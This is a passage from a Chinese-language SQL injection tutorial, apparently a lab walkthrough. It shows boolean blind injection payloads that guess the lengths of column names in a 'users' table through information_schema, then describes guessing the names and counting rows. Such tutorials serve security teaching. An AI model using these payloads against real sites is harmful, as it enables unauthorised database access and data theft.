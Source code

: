 [![](assets/1707953831-ed6278254ba3392dd03d89357bdc2d0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192110-7f74e78a-c34f-1.png)  
再来判断每个列的长度

```plain
第一个列长度为 2
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 0,1))=2 --+

第二个列长度为 8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 1,1))=8 --+

第三个列长度为 8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 2,1))=8 --+
```

再用同样的方法猜解列的名字，这里以第二个列为例，列名为 username  
[![](assets/1707953831-775cb5df4b79b67a75ecbcae870f875d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192150-97354982-c34f-1.png)  
下面还是如法炮制，判断列中有多少数据，我们可以使用`count(*)`
